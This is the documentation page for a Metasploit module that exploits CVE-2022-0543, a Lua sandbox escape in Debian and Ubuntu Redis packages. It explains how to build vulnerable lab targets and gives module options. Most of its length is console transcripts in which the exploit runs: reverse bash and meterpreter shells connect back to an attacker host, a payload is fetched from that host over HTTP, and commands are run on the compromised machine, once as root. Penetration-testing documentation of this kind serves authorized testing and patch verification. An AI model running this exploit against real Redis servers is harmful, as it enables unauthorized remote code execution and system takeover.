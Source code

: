 ## Vulnerable Application

### Description

This module exploits CVE-2022-0543, a Lua-based Redis sandbox escape. The
vulnerability was introduced by Debian and Ubuntu Redis packages that
insufficiently sanitizied the Lua environment. The maintainers failed to
disable the package interface, allowing attackers to load arbitrary libraries.

On a typical `redis` deployment (not docker), this module achieves execution
as the `redis` user. Debian/Ubuntu packages run Redis using systemd with the
"MemoryDenyWriteExecute" permission, which limits some of what an attacker can
do. For example, staged meterpreter will fail when attempting to use mprotect.
As such, stageless meterpreter is the preferred payload.

Redis can be configured with authentication or not. This module will work with
either configuration (provided you provide the correct authentication details).
This vulnerability could theoretically be exploited across a few architectures:
i386, arm, ppc, etc. However, the module only supports x86_64, which is likely
to be the most popular version.

### Setup

I'll explain two setup scenarios. I'll first go through Docker since it's so easy
but I don't think it's realistically the most likely deployment. I'll then
explain an Ubuntu 20.04 installation.

#### Docker

This will deploy an official Ubuntu Redis image. To get a vulnerable image do the
following:

1. `docker pull ubuntu/redis:6.0-21.04_edge`
1. `docker run -d --name vuln_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:6.0-21.04_edge`

The vulnerable Redis will now be on port 6379. Note that this version uses a password.

To deploy a patched version, do the following:

1. `docker pull ubuntu/redis:latest`
1. `sudo docker run -d --name fixed_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:latest`

#### Ubuntu 20.04

1. `sudo apt-get install redis-tools=5:5.0.7-2`
1. `sudo apt-get install redis-server=5:5.0.7-2`
1. `sudo nano /etc/redis/redis.conf` -> Comment out "bind" and change "protected-mode" to no.
1. `sudo service redis restart`

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/redis/redis_debian_sandbox_escape`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: If needed - `set PASSWORD <password>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module receives a reverse shell

## Options

### LUA_LIB

The path to the Lua library to load. The default, `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`,
appears to be valid for both Ubuntu and Debian but I made it optional in case some edge
case crops up that I hadn't considered.

### PASSWORD

The password, if needed, to use with the Redis AUTH command.

## Scenarios

### Successful exploitation of Redis on Ubuntu 20.04 for reverse bash shell

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 10.0.0.22:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 10.0.0.22:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60844 ) at 2022-04-26 03:17:39 -0700

id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis on Ubuntu 20.04 for reverse meterpreter

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set target 1
target => 1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] 10.0.0.22:6379        - Using URL: http://10.0.0.2:8080/mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Client 10.0.0.22 (Wget/1.20.3 (linux-gnu)) requested /mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Sending payload to 10.0.0.22 (Wget/1.20.3 (linux-gnu))
[+] 10.0.0.22:6379        - Exploit complete!
[*] 10.0.0.22:6379        - Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60848 ) at 2022-04-26 03:21:22 -0700
[*] 10.0.0.22:6379        - Server stopped.

meterpreter > shell
Process 13120 created.
Channel 1 created.
id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis in Ubuntu Docker for reverse bash shell

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD mypassword
PASSWORD => mypassword
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 127.0.0.1:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 127.0.0.1:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 127.0.0.1:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 127.0.0.1:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 172.17.0.2:33148 ) at 2022-04-26 03:23:32 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux 9c7526769ad1 5.13.0-40-generic #45-Ubuntu SMP Tue Mar 29 14:48:14 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Failed exploitation due to wrong password

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD lolwat
PASSWORD => lolwat
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 127.0.0.1:6379 - Cannot reliably check exploitability. Failed authentication.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of patched Redis on Debian 11

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.24
RHOST => 10.0.0.24
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.24:6379 - The target is not exploitable. Could not execute 'id' on the remote target.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of not-vulnerable Ubuntu 18.04 i386.

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.25
RHOST => 10.0.0.25
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.25:6379 - The target is not exploitable. The reported version is unaffected: 4.0.9
msf6 exploit(linux/redis/redis_debian_sandbox_escape) >
```

